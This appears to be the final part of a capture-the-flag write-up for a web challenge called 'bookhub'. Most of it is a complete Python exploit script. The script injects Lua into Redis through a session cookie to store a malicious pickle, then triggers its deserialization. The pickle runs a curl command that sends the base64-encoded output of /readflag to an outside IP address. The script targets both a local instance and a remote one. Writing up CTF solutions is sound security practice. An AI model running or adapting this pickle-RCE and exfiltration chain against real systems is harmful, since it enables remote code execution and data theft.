 My final payload was to do a `redis.call("SET", "bookhub:session:hacker", {pickle RCE code serialized})` and then send a GET request to "/login/" to make sure our serialized object is deserialized.

Here is my script: (I used lua's string.char() function to send non readable bytes because URL encoding was fucking me over)

```python
import requests
from bs4 import BeautifulSoup
import pickle
import os
import sys
import base64

COMMAND = '/usr/bin/curl -X POST "http://199.247.28.91/hacked" -d "$(/readflag|base64)"'

class PickleRce(object): #credits to https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd
    def __reduce__(self):
        return (os.system,(COMMAND,))

hax = pickle.dumps(PickleRce())

ans = "string.char("
for char in hax:
	ans += "{},".format(ord(char))

ans = ans[:-1] + ")"

cmd = 'hacker"}} redis.call("SET", "bookhub:session:hacker", {hack})--'.format(hack=ans)
LOCAL = True

if LOCAL:
	CSRF = BeautifulSoup(requests.get("http://127.0.0.1:5000/login/", cookies={'bookhub-session':cmd}).text, 'lxml').find('input', {'name':'csrf_token'}).get('value')
	print requests.post("http://127.0.0.1:5000/admin/system/refresh_session/", cookies={'bookhub-session':cmd}, data={'submit':'1', 'csrf_token':CSRF}).text
	requests.get("http://127.0.0.1:5000/login/", cookies={'bookhub-session':'hacker'})
else:
	CSRF = BeautifulSoup(requests.get("http://18.213.16.123:5000/login/", cookies={'bookhub-session':cmd}).text, 'lxml').find('input', {'name':'csrf_token'}).get('value')
	print requests.post("http://18.213.16.123:5000/admin/system/refresh_session/", cookies={'bookhub-session':cmd}, data={'submit':'1', 'csrf_token':CSRF}).text
	requests.get("http://18.213.16.123:5000/login/", cookies={'bookhub-session':'hacker'})
	```
